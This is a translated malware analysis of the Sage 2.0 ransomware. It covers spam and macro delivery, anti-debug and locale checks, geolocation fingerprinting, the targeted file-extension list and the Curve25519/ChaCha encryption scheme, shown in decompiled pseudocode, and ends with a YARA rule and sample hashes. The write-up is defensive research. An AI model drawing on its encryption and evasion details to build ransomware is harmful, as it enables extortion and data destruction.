

# 【木马分析】针对勒索软件Sage 2.0的分析


                                阅读量   
                                **137869**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：cert.pl
                                <br>原文地址：[https://www.cert.pl/en/news/single/sage-2-0-analysis/](https://www.cert.pl/en/news/single/sage-2-0-analysis/)

译文仅供参考，具体内容表达以及含义原文为准

****

[](./img/85545/t01debf358c4f01f946.jpg)

作者：[興趣使然的小胃](http://bobao.360.cn/member/contribute?uid=2819002922)

预估稿费：180RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿

**<br>**

**前言**

Sage勒索软件是勒索软件家族的一个新成员，也是勒索软件CryLocker的一个变种。从目前情况分析，隐藏在Sage背后的始作俑者与勒索软件Cerber、Locky和Spora的散布者应该师出同门。

在本文的分析案例中，Sage借助垃圾邮件进行传播扩散，恶意垃圾邮件中仅仅包含一个zip压缩文件，没有其他文字内容。该zip文件包含了一份Word宏文档，其主要功能是下载及安装Sage勒索软件。

运行该勒索软件后，Windows的UAC窗口会不断重复显示，直到用户点击“Yes”按钮，允许勒索软件运行为止。

随后勒索软件开始对文件进行加密，被加密过的文件名以“.sage”结尾。

[](https://p2.ssl.qhimg.com/t01930740a8e2bd2211.png)

勒索软件的赎金页面会告诉受害者去Tor网络页面支付赎金，但首先受害者需要输入正确的验证码才能访问该页面。

[](https://p5.ssl.qhimg.com/t01b2fd5d718ad2d841.png)

验证码校验通过后，受害者可以看到Sage 2.0的主页面，如下图所示。

[](https://p3.ssl.qhimg.com/t0126a5d4aee9b0c296.png)

受害者甚至可以在这个网站与软件作者进行交流。

[](https://p3.ssl.qhimg.com/t01a9a751919303790a.png)

Sage不会在加密工作结束后自我删除，而是将自身复制到“%APPDATA%Roaming”目录，每次系统重启后，Sage会重新加密所有文件，直到受害者支付赎金。

<br>

**技术分析**


接下来我们将着重从技术角度对Sage 2.0进行分析。

软件的主函数流程与以下代码类似：

```
int main(int argc, const char **argv, const char **envp)
{
  ModCheck();
  DebugCheck();
  AntiDebug(v3);
  if ( AntiDebugCheckMutex() )
    return 0;
  GetOrGenerateMainCryptoKey();
  if ( IsProtectedLocale() )
  {
    FingerprintLocation(2);
    Sleep(0x493E0u);
    FingerprintLocation(2);
    Sleep(0x927C0u);
    FingerprintLocation(2);
    SelfDelete();
    result = 0;
  }
  else
  {
    if ( !CheckFingerprintLocation() )
      return 0;
    result = CreateThreadsAndEncrypt(&amp;mainEncKeyt);
  }
  return result;
}
```

代码中包含很多的指纹信息探测及检查过程，这些过程都是常见流程，比较有趣的功能包括以下几点：

**1）调试开关功能**

首次运行时软件可能会出现某些问题，因此软件内置了一个调试命令行参数功能来测试软件设置参数是否正确：

```
LPWSTR *DebugCheck()
{
  cmdLine = GetCommandLineW();
  result = CommandLineToArgvW(cmdLine, &amp;numArgs);
  if ( numArgs == 2 )
  {
    result = (LPWSTR *)result[1];
    if ( *result == 'd' &amp;&amp; !*(result + 1) )
    {
      if ( AttachConsole(0xFFFFFFFF) )
      {
        stdout = GetStdHandle(0xFFFFFFF5);
        debugmsg = sprintf_0("{"b":"%#.*s"}", 8, FingerprintDword + 4);
        WriteFile(stdout, debugmsg, lstrlenA(debugmsg), &amp;NumberOfBytesWritten, 0);
      }
      ExitProcess(0);
    }
  }
}
```

调试功能的运行结果如下图所示。

[](https://p0.ssl.qhimg.com/t01163e809cb79544c4.png)

这个调试功能之所以存在，可能是因为作者疏忽大意，忘了从最终版本中删除相应代码。

**2）区域检查功能**

Sage 2.0的作者给了某几个国家特殊关照，如以下的区域检查代码片段：

```
signed int IsProtectedLocale()
{
  localeCount = GetKeyboardLayoutList(10, (HKL *)&amp;List);
  if ( localeCount &lt;= 0 )
    return 0;
  i = 0;
  if ( localeCount &lt;= 0 )
    return 0;
  while ( 1 )
  {
    next = (unsigned int)(&amp;List)[i] &amp; 0x3FF;
    if ( next == 0x23 || next == 0x3F || next == 0x19 || next == 0x22 || next == 0x43 || (_WORD)next == 0x85 )
      break;
    if ( ++i &gt;= localeCount )
      return 0;
  }
  return 1;
}
```

上述代码对用户键盘布局进行了检测，next变量的数值与语种的对应关系为：

[](https://p2.ssl.qhimg.com/t01d2068cdc4c87ba65.png)

有点令人失望的是波兰语系并不在软件的例外列表中，如果Sage作者能看到这篇文章的话，请将0x15值添加到程序代码中（注：作者的调侃）。<br>

**3）地理位置指纹识别功能**

Sage试图通过maps.googleapis.com得到宿主机的地理位置信息以及SSID、MAC信息，如以下代码：

```
strcpy_((int)arg0, "/maps/api/browserlocation/json?browser=firefox&amp;sensor=true");
i = 0;
if ( v12[1] )
{
    offset = 0;
    do
    {
        ss_ = (int)&amp;v12[offset + 2];
        if ( *(_DWORD *)ss_ &lt;= 0x20u )
        {
            ToHexStrring(&amp;mac, (unsigned __int8 *)&amp;v12[offset + 12]);
            str_append(ssid, (_BYTE *)(ss_ + 4), *(_DWORD *)ss_);
            ssid[*(_DWORD *)ss_] = 0;
            sprintf_1((int)arg0, "&amp;wifi=mac:%s|ssid:%s|ss:%d", &amp;mac, ssid, (*(_DWORD *)(ss_ + 60) &gt;&gt; 1) - 100);
        }
        ++i;
        offset += 90;
    }
    while ( i &lt; v12[1] );
}
 
// ...
 
DoHttpGetRequest((DWORD)&amp;dwNumberOfBytesAvailable, "maps.googleapis.com", 0x1BBu, v8)
```

特征文件判定，文件加密流程开始前，Sage首先检查某个特征文件是否存在：

```
if ( CreateFileW(L"C:\Temp\lol.txt", 0x80000000, 1u, 0, 3u, 0, 0) == (HANDLE)-1 )
{
    // encryption code
}
```

Sage作者通过判断特征文件是否存在，决定加密流程是否启动，以避免对作者本机的文件造成影响。

若该特征文件不存在，Sage将启动加密流程。

<br>

**文件后缀清单**


Sage不会对所有文件进行加密，它只对文件后缀清单中的文件进行加密，受影响的文件后缀如下所示：

```
.dat .mx0 .cd .pdb .xqx .old .cnt .rtp .qss .qst .fx0 .fx1 .ipg .ert .pic .img
.cur .fxr .slk .m4u .mpe .mov .wmv .mpg .vob .mpeg .3g2 .m4v .avi .mp4 .flv
.mkv .3gp .asf .m3u .m3u8 .wav .mp3 .m4a .m .rm .flac .mp2 .mpa .aac .wma .djv
.pdf .djvu .jpeg .jpg .bmp .png .jp2 .lz .rz .zipx .gz .bz2 .s7z .tar .7z .tgz
.rar .zip .arc .paq .bak .set .back .std .vmx .vmdk .vdi .qcow .ini .accd .db
.sqli .sdf .mdf .myd .frm .odb .myi .dbf .indb .mdb .ibd .sql .cgn .dcr .fpx
.pcx .rif .tga .wpg .wi .wmf .tif .xcf .tiff .xpm .nef .orf .ra .bay .pcd .dng
.ptx .r3d .raf .rw2 .rwl .kdc .yuv .sr2 .srf .dip .x3f .mef .raw .log .odg .uop
.potx .potm .pptx .rss .pptm .aaf .xla .sxd .pot .eps .as3 .pns .wpd .wps .msg
.pps .xlam .xll .ost .sti .sxi .otp .odp .wks .vcf .xltx .xltm .xlsx .xlsm
.xlsb .cntk .xlw .xlt .xlm .xlc .dif .sxc .vsd .ots .prn .ods .hwp .dotm .dotx
.docm .docx .dot .cal .shw .sldm .txt .csv .mac .met .wk3 .wk4 .uot .rtf .sldx
.xls .ppt .stw .sxw .dtd .eml .ott .odt .doc .odm .ppsm .xlr .odc .xlk .ppsx
.obi .ppam .text .docb .wb2 .mda .wk1 .sxm .otg .oab .cmd .bat .h .asx .lua .pl
.as .hpp .clas .js .fla .py .rb .jsp .cs .c .jar .java .asp .vb .vbs .asm .pas
.cpp .xml .php .plb .asc .lay6 .pp4 .pp5 .ppf .pat .sct .ms11 .lay .iff .ldf
.tbk .swf .brd .css .dxf .dds .efx .sch .dch .ses .mml .fon .gif .psd .html
.ico .ipe .dwg .jng .cdr .aep .aepx .123 .prel .prpr .aet .fim .pfb .ppj .indd
.mhtm .cmx .cpt .csl .indl .dsf .ds4 .drw .indt .pdd .per .lcd .pct .prf .pst
.inx .plt .idml .pmd .psp .ttf .3dm .ai .3ds .ps .cpx .str .cgm .clk .cdx .xhtm
.cdt .fmv .aes .gem .max .svg .mid .iif .nd .2017 .tt20 .qsm .2015 .2014 .2013
.aif .qbw .qbb .qbm .ptb .qbi .qbr .2012 .des .v30 .qbo .stc .lgb .qwc .qbp
.qba .tlg .qbx .qby .1pa .ach .qpd .gdb .tax .qif .t14 .qdf .ofx .qfx .t13 .ebc
.ebq .2016 .tax2 .mye .myox .ets .tt14 .epb .500 .txf .t15 .t11 .gpc .qtx .itf
.tt13 .t10 .qsd .iban .ofc .bc9 .mny .13t .qxf .amj .m14 ._vc .tbp .qbk .aci
.npc .qbmb .sba .cfp .nv2 .tfx .n43 .let .tt12 .210 .dac .slp .qb20 .saj .zdb
.tt15 .ssg .t09 .epa .qch .pd6 .rdy .sic .ta1 .lmr .pr5 .op .sdy .brw .vnd .esv
.kd3 .vmb .qph .t08 .qel .m12 .pvc .q43 .etq .u12 .hsr .ati .t00 .mmw .bd2 .ac2
.qpb .tt11 .zix .ec8 .nv .lid .qmtf .hif .lld .quic .mbsb .nl2 .qml .wac .cf8
.vbpf .m10 .qix .t04 .qpg .quo .ptdb .gto .pr0 .vdf .q01 .fcr .gnc .ldc .t05
.t06 .tom .tt10 .qb1 .t01 .rpf .t02 .tax1 .1pe .skg .pls .t03 .xaa .dgc .mnp
.qdt .mn8 .ptk .t07 .chg .#vc .qfi .acc .m11 .kb7 .q09 .esk .09i .cpw .sbf .mql
.dxi .kmo .md .u11 .oet .ta8 .efs .h12 .mne .ebd .fef .qpi .mn5 .exp .m16 .09t
.00c .qmt .cfdi .u10 .s12 .qme .int? .cf9 .ta5 .u08 .mmb .qnx .q07 .tb2 .say
.ab4 .pma .defx .tkr .q06 .tpl .ta2 .qob .m15 .fca .eqb .q00 .mn4 .lhr .t99
.mn9 .qem .scd .mwi .mrq .q98 .i2b .mn6 .q08 .kmy .bk2 .stm .mn1 .bc8 .pfd .bgt
.hts .tax0 .cb .resx .mn7 .08i .mn3 .ch .meta .07i .rcs .dtl .ta9 .mem .seam
.btif .11t .efsl .$ac .emp .imp .fxw .sbc .bpw .mlb .10t .fa1 .saf .trm .fa2
.pr2 .xeq .sbd .fcpa .ta6 .tdr .acm .lin .dsb .vyp .emd .pr1 .mn2 .bpf .mws
.h11 .pr3 .gsb .mlc .nni .cus .ldr .ta4 .inv .omf .reb .qdfx .pg .coa .rec .rda
.ffd .ml2 .ddd .ess .qbmd .afm .d07 .vyr .acr .dtau .ml9 .bd3 .pcif .cat .h10
.ent .fyc .p08 .jsd .zka .hbk .mone .pr4 .qw5 .cdf .gfi .cht .por .qbz .ens
.3pe .pxa .intu .trn .3me .07g .jsda .2011 .fcpr .qwmo .t12 .pfx .p7b .der .nap
.p12 .p7c .crt .csr .pem .gpg .key
```

**加密过程**

勒索软件最有趣的部分莫过于文件的加密过程。在勒索软件中，Sage 2.0是非常特别的一个存在，因为它采用了椭圆曲线加密算法对文件进行加密。

加密所使用的椭圆曲线函数是“y^2 = x^3 + 486662x^x + x”，使用的素数范围是“2^255 – 19”，基数变量x=9。Sage所采用的椭圆曲线是著名的Curve25519曲线，是现代密码学中最先进的技术。Curve25519不仅是最快的ECC（Elliptic Curve Cryptography，椭圆曲线加密算法）曲线之一，也不易受到弱RNG（Random Number Generator，随机数生成器）的影响，设计时考虑了侧信道攻击，避免了许多潜在的实现缺陷，并且很有可能不存在第三方内置后门。

Sage将Curve25519算法与硬编码的公钥一起使用生成共享密钥。主密钥生成算法如下所示（结构体和函数名由我们重新命名）：

```
int __cdecl GenerateMainKey(curve_key *result, const void *publicKey)
{
  char mysecret[32]; // [esp+4h] [ebp-40h]@1
  char shared[32]; // [esp+24h] [ebp-20h]@1
 
  result-&gt;flag = 1;
  GenerateCurve25519SecretKey(mysecret);
  ComputeCurve25519MatchingPublicKey(result-&gt;gpk, mysecret);
  ComputeCurve25519SharedSecret(shared, mysecret, publicKey);
  ConvertBytesToCurve22519SecretKey(shared);
  ComputeCurve25519MatchingPublicKey(result-&gt;pk, shared);
  return 0;
}
```

这段代码看起来像是基于ECC的DH密钥交换协议（ECDH，Elliptic Curve Diffie-Hellman）的实现代码，但其中没有任何保存算法私钥的流程（私钥只用于数据解密用途，可由软件作者可以使用自己的私钥随时创建）。

代码中复杂的函数只是ECC函数（我们称之为CurveEncrypt函数）的封装而已。例如，计算匹配公钥的函数是curve25519(secretKey, basePoint)，其中basePoint等于9（即9后面跟31个零）。

```
int __cdecl ComputeCurve25519MatchingPublicKey(char *outPtr, char *randbytes)
{
  char key[32]; // [esp+8h] [ebp-20h]@1
 
  qmemcpy(key, &amp;Curve25519BasePoint, sizeof(key));
  key[31] = Curve25519BasePointEnd &amp; 0x7F;
  return CurveEncrypt(outPtr, randbytes, key);
}
```

共享密钥的计算与之类似，不同的是所使用的是公钥而不是常数基数，如下：

```
int __cdecl ComputeCurve25519SharedSecret(char *shared, char *mySecret, const void *otherPublicKey)
{
  char a3a[32]; // [esp+8h] [ebp-20h]@1
 
  qmemcpy(a3a, otherPublicKey, sizeof(a3a));
  a3a[31] &amp;= 0x7Fu;
  return CurveEncrypt(shared, mySecret, a3a);
}
```

得益于Curve25519的精妙设计，任意序列随机字节与密钥之间的相互转换是非常容易的，只需要对几个比特进行修改就已足够：

```
curve_key *__cdecl ConvertBytesToCurve22519SecretKey(curve_key *a1)
{
  curve_key *result; // eax@1
  char v2; // cl@1
 
  result = a1;
  v2 = a1-&gt;gpk[31];
  result-&gt;gpk[0] &amp;= 248u;
  a1-&gt;gpk[31] = v2 &amp; 0x3F | 0x40;
  return result;
}
```

同理，私钥的生成也非常容易，只需要生成一个32字节的随机数，将其转换为私钥即可：

```
int __cdecl GenerateCurve25519SecretKey(_BYTE *buffer)
{
  char v1; // al@1
 
  getSecureRandom(32, (int)buffer);
  v1 = buffer[31];
  *buffer &amp;= 248u;
  buffer[31] = v1 &amp; 0x3F | 0x40;
  return 0;
}
```

以上就是密钥生成的全部流程。至于文件加密流程，Sage首先是使用Curve25519对文件进行首次加密，再利用ChaCha算法进行后续加密（同样也是非常规加密方法），加密密钥附在输出文件的尾部：

```
GenerateCurve25519SecretKey(&amp;secretKey);
ComputeCurve25519MatchingPublicKey(pubKey, &amp;secretKey);
ComputeCurve25519SharedSecret(sharedSecret, &amp;secretKey, ellipticCurveKey-&gt;pk);
 
//
 
ChaChaInit(&amp;chaCha20key, (unsigned __int8 *)sharedSecret, (unsigned __int8 *)minikey);
 
while (bytesLeftToRead) {
    // Read from file to lpBuff
 
    ChaChaEncrypt(&amp;chaCha20key, lpBuff, lpBuff, numBytesRead);
 
    // Write from file to lpBuff
}
 
AppendFileKeyInfo(hFile_1, ellipticCurveKey, &amp;FileSize, pubKey, a5);
```

AppendFileKeyInfo函数的功能是将共享密钥和pubKey附加到文件尾部：

```
int __cdecl AppendFileKeyInfo(HANDLE hFile, curve_key *sharedKey, DWORD *dataSize, char *pubKey, int a5)
{
  DWORD dataSizeV; // edx@1
  int result; // eax@3
  _DWORD buffer[24]; // [esp+8h] [ebp-60h]@1
 
  buffer[0] = 0x5A9EDEAD;
  qmemcpy(&amp;buffer[1], sharedKey, 0x20u);
  qmemcpy(&amp;buffer[9], pubKey, 0x20u);
  dataSizeV = *dataSize;
  buffer[19] = dataSize[1];
  buffer[18] = dataSizeV;
  buffer[21] = a5;
  buffer[20] = 0;
  buffer[22] = 0x5A9EBABE;
  if ( WriteFile(hFile, buffer, 0x60u, (LPDWORD)&amp;sharedKey, 0) &amp;&amp; sharedKey == (curve_key *)96 )
    result = 0;
  else
    result = -5;
  return result;
}
```

ChaCha并不是勒索软件常用的算法，它与Salsa20算法紧密相关（勒索软件Petya用的就是Salsa20算法）。我们并不知道为何Sage不适用AES，有可能它只是想特立独行而已。

换而言之，对于每一个加密文件，都对应有两组密钥+一个密钥对，对应关系如下所示：

```
my_secret &lt;- random
my_public &lt;- f(my_secret)  # gpk
 
sh_secret &lt;- f(my_secret, c2_public)
sh_public &lt;- f(sh_secret) # pk
 
fl_secret &lt;- random
fl_public &lt;- f(fl_secret)
fl_shared &lt;- f(fl_secret, sh_public)
 
chachakey &lt;- f(fl_shared)
```

Sage完成加密工作后，我们只获得了其中my_public、sh_public以及fl_shared的值，我们还需要获得chachakey的值才能正确解密文件。

Sage采用了相当牢固的加密方法，可以在离线状态下加密文件，不需要连接C&amp;C服务器进行密钥协商，原因在于加密所需要的公钥已经硬编码在勒索软件中，并且经过了非对称加密处理。如果Sage作者没有犯太大的编程错误的话，那么文件的解密恢复就渺渺无期。当然，主加密密钥最终总是有可能会被泄露或者公布出来的。

<br>

**附加信息**

**匹配Sage所使用的Yara规则：**

```
rule sage
{
    meta:
        author="msm"
 
    strings:
        /* ransom message */
        $ransom1 = "ATTENTION! ALL YOUR FILES WERE ENCRYPTED!"
        $ransom2 = "SAGE 2.0 uses military grade elliptic curve cryptography and you"
 
        /* other strings */
        $str0 = "!Recovery_%s.html"
        $str1 = "/CREATE /TN "%s" /TR "%s" /SC ONLOGON /RL HIGHEST /F"
 
        /* code */
        $get_subdomain = {8B 0D ?? ?? 40 00 6A ?? [2] A1 ?? ?? 40 00 5? 5? 50 51 53 E8}
        $debug_file_name = {6A 00 6A 01 68 00 00 00 80 68 [4] FF 15 [4] 83 F8 FF}
        $get_request_subdomain = {74 ?? A1 [4] 5? 5? 68 ?? ?? 40 00 E8}
        $get_ec_pubkey = {68 [2] 40 00 68 [2] 40 00 E8 [4] 68 B9 0B 00 00 6A 08 E8}
        $get_extensions = { 8B 35 [2] 40 00 [0-3] 80 3E 00 74 24 }
 
    condition:
        all of ($ransom*) and any of ($str*)
        and any of ($get_subdomain, $debug_file_name, $get_request_subdomain, $get_ec_pubkey, $get_extensions)
}
```

**样本哈希值（SHA256）：**

```
sample 1, 362baeb80b854c201c4e7a1cfd3332fd58201e845f6aebe7def05ff0e00bf339
sample 2, 3b4e0460d4a5d876e7e64bb706f7fdbbc6934e2dea7fa06e34ce01de8b78934c
sample 3, ccd6a495dfb2c5e26cd65e34c9569615428801e01fd89ead8d5ce1e70c680850
sample 4, 8a0a191d055b4b4dd15c66bfb9df223b384abb75d4bb438594231788fb556bc2
sample 5, 0ecf3617c1d3313fdb41729c95215c4d2575b4b11666c1e9341f149d02405c05
```

**其他资料：**

[https://www.govcert.admin.ch/blog/27/saga-2.0-comes-with-ip-generation-algorithm-ipga](https://www.govcert.admin.ch/blog/27/saga-2.0-comes-with-ip-generation-algorithm-ipga) 
